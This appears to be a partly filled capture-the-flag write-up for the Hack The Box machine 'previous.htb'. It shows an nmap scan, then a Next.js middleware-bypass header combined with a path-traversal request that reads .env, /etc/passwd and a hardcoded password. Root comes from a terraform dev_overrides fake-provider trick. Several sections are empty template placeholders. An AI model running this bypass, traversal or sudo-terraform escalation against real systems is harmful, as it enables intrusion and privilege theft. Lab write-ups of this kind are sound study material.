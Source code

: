 ```yaml
---
os: linux
status: Active
tags:
aliases:
---
```


# Information Gathering

Scanned top TCP ports:

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated open TCP ports:

```sh

```

---

# Enumeration

## Port 80 - HTTP (Apache)

found contact to:
```
jeremy@previous.htb
```


looking around
```js
{"credentials":{"id":"credentials","name":"Credentials","type":"credentials","signinUrl":"http://localhost:3000/api/auth/signin/credentials","callbackUrl":"http://localhost:3000/api/auth/callback/credentials"}}
```

After a while of searching, found CVE in nextjs that enable me to bypass security controls, just by adding specific header. Then found a end point that i can use to do LFI.
```http
GET /api/download?example=../../package.json HTTP/1.1
Host: previous.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: next-auth.csrf-token=75113a9f8acf2b5bfc60729770877c7bf1b0b90eb86e422e3adc63e54af7c45d%7Cd068f58d2efcca479d14be93682dcf0b71ffb2619294f679f350dee06dec8f47; next-auth.callback-url=http%3A%2F%2Flocalhost%3A3000%2Fdocs
Connection: keep-alive
```

```
.env
pages/
public/
.next/
```

```
.env file
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

```
/etc/passwd

nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

```js
MyNameIsJeremyAndILovePancakes

authorize: async e => e?.username === "jeremy" && e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") ? {

id: "1",

name: "Jeremy"

} : null

})],

pages: {

signIn: "/signin"

},

9￼} : null
10￼
11￼})],
12￼
secret: process.env.NEXTAUTH_SECRET

},
```
---

# Exploitation

## SQL Injection


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Local enumeration

```sh
jeremy@previous:~$ sudo -l
[sudo] password for jeremy: 
Matching Defaults entries for jeremy on previous:
    !env_reset, env_delete+=PATH, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jeremy may run the following commands on previous:
    (root) /usr/bin/terraform -chdir\=/opt/examples apply

```
## Privilege Escalation vector

### Terraform
it need providers so it can know how to execute and those providers are just binaries, 

---

### 1. Pick a directory you control
```
mkdir -p /home/jeremy/fake_provider
```

2. Update your `~/.terraformrc`
Change the dev override to point at your directory instead of `/usr/local/go/bin`.
```
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/fake_provider"
  }
  direct {}
}

```

3. put  a provider binary in your directory
```
touch /home/jeremy/fake_provider/terraform-provider-examples
chmod +x /home/jeremy/fake_provider/terraform-provider-examples

echo '#!/bin/sh' > /home/jeremy/fake_provider/terraform-provider-examples
echo 'echo "Custom provider executed as: $(id)"' >> /home/jeremy/fake_provider/terraform-provider-examples
chmod +x /home/jeremy/fake_provider/terraform-provider-examples

sudo /usr/bin/terraform -chdir=/opt/examples apply
```

---

# Trophy

{{image}}

>[!todo] **User.txt**
>flag

>[!todo] **Root.txt**
>flag

**/etc/shadow**

```sh

```

# Resolution summary

>[!summary]
>- Step 1
>- Step 2
